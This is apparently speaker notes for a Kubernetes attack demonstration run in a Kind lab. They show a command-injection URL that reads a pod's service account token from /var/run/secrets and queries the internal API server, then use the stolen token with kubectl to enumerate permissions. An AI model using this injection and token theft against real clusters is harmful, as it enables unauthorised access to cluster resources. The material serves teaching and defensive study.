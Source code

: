 [API](http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20"Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)"%20https://10.96.0.1/api/v1/namespaces/default/endpoints)

What we've done in this string is to curl the internal endpoint of the API server asking for the cluster endpoints, and passed it both the service account certificate and the token. 

This command succeeds, and in a real environment would give us the external address for the Kubernetes API server. Because we are running in Kind, it won't be this IP address, it will just be exposed on localhost with the same port. This is a vulnerability, and has been created by a too permissive policy for the service token. 

SLIDE 9 - Updated timelime

Now we have a token we can configure kubectl to use that token against the external endpoint of the API server. 

SLIDE 10 - connect to external API

Run the helper script and configure kubectl locally in a new shell to use the token we just got. 

`k get pods`

This will fail saying we don't have permissions in the default namespace, but it does give us the namespace of the service account, so let's try in that namespace.

`k get pods -n secure`

Now we can see we have some permissions in that namespace. Let's investigate a bit more what permissions we do have - and there's a variety of ways we can do that :

`k auth can-i --list --token=$TOKEN`

We don't have much in the default namespace, although we can see the permission to list endpoints. 

```console
Resources                                       Non-Resource URLs   Resource Names   Verbs
endpoints                                       []                  []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
podsecuritypolicies.policy                      []                  [privileged]     [use]
podsecuritypolicies.policy                      []                  [restricted]     [use]
```
